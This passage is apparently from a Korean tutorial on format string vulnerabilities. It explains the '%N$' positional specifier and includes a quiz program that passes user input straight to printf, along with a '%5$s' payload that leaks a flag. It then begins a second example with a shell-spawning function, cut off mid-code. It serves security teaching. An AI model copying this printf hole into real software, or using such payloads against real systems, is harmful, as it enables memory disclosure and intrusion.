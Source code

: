 ```
```
fsb1_exploit2를 확인해보면 "[flag_buf 주소]%2$s"를 입력하였다. "%N$"는 N번째 매개변수를 특정 포맷 스트링으로 처리할 때 사용한다.
예제에서 다룬 "%2$s"는 두 번째 주소를 "s" 포맷 스트링을 통해 출력한다는 의미이다.
```C
//fsb_example.c
#include <stdio.h>
int main()
{
	printf("%2$s", "HELLO", "WORLD");
}
```
fsb_example.c는 "%N$"의 이해를 돕기 위한 간단한 예제이다. 실행 결과는 다음과 같다.
```
$ ./ex
WORLD
```
이처럼 "$"를 사용하면 원하는 번지의 주소를 쉽게 참조할 수 있기 때문에 유용하게 사용할 수 있다.

* 퀴즈
```C
// fsb_read.c
#include <stdio.h>
int main(void) {
    int auth = "FLAG";
    char buf[32] = {0, };
    
    read(0, buf, 32);
    printf(buf);
}
```
auth 값을 읽기 위해서는 몇 번째 포맷 스트링에 의해 참조되는 지 알아야 한다.
```
bash3.2$ ./fsb1
input : AAAA%x.%x.%x.%x.%x.%x
AAAA1.41fe41ff.42be4242.0.41414141.252e7825
Fail
```
5번째 포맷 스트링에 의해 참조된다.
payload는 ["auth의 주소"]%5$s이다.
```
bash3.2$ ./fsb1
input : 0þÿ%5$s
0þÿFLAG
Win
```

* 예제2
```C
// gcc -o fsb2 fsb2.c -m32 -mpreferred-stack-boundary=2
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}
void get_shell() {
	system("/bin/sh");
}
int main()
{
	char buf[256];
	initialize();
	memset(buf, 0, sizeof(buf));
	printf("Input: ");
```
